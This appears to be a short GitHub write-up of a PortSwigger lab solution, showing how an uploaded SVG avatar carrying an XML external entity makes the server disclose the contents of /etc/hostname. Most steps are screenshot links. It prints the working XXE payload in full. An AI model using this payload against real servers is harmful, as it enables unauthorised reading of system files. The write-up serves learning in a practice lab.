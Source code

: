 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/04b327ba-7d77-4d47-808d-4e8df3f6e1ff)

### Solution

First we upload a random svg image as avatar in the comment section

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/e3b184e7-167b-4fef-b51a-9a4022c63255)

now we select that request from http history

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/b956a743-ed88-47c1-9e8b-51f636899a14)

Create a local SVG image with the following content:

`<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
`

then we submit that request

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/6331a6d5-0dec-4113-acd5-a0b2ac958f12)

when viewing the comment avatar we are able to see the hostname

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/c90274f0-4377-41b8-8480-fc8ef8657492)

enter the host name to solve the lab 


![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/002bafe2-470c-4a9b-a5c7-135a9421c684)
